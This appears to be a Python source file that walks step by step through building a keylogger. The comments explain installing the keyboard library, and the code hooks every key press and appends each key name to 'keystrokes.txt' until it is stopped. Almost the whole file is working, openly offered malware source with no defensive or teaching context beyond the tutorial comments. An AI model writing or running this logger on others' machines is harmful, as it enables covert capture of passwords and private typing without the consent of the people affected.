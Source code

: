 # keylogger
# who to create a keylogger in python using code .. 
# -------------*********-----------*********--------- 
# frist 1: step command 
# Ensure that you have the keyboard library installed 
# in your Python environment. Open your command prompt or terminal

# pip install keyboard

# Step 2: Importing the Necessary Libraries
# Begin by importing the keyboard library at the beginning of your Python script.
# This library will enable us to work with keyboard inputs. 
#import keyboard

import keyboard

# Step 3: Define the Log File
# Specify the name and location of the log file where the keystrokes will be saved.
# In this example, we’ll use ‘keystrokes.txt’ as the file name. Feel free to modify it as desired.
# log_file = 'keystrokes.txt'

log_file = 'keystrokes.txt'

# Step 4: Create the Key Press Event Function
# Define a function that will handle the key press events.
# This function will be called whenever a key is pressed.
# def on_key_press(event):
# with open(log_file, 'a') as f:
# f.write('{}\n'.format(event.name))

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write('{}\n'.format(event.name))

# 
# Inside the function, the ‘with open’ statement opens the log file in ‘append’ mode (‘a’).
# It creates a temporary file object named ‘f’.
# The ‘write’ method writes the name of the pressed key, obtained from ‘event.name’, to the file.
# The ‘{}\n’.format(event.name) inserts the key name into the string,
# and the ‘\n’ ensures each key is written on a new line.

# Step 5: Register the Key Press Event
# Register the ‘on_key_press’ function to be called whenever a key is pressed.
# This will enable our code to capture the keystrokes. 
keyboard.on_press(on_key_press)

# Step 6: Wait for Key Presses
# Finally, we want our program to wait until a key is pressed before it exits.
# Use the ‘keyboard.wait()’ function to accomplish this.

keyboard.wait()

# Step 7: Run the Code
# Save your Python script with a ‘.py’ extension (e.g., ‘keylogger.py’).
# Open your command prompt or terminal, navigate to the directory where the script is located,
# and execute the command:

#python3 keylogger.py

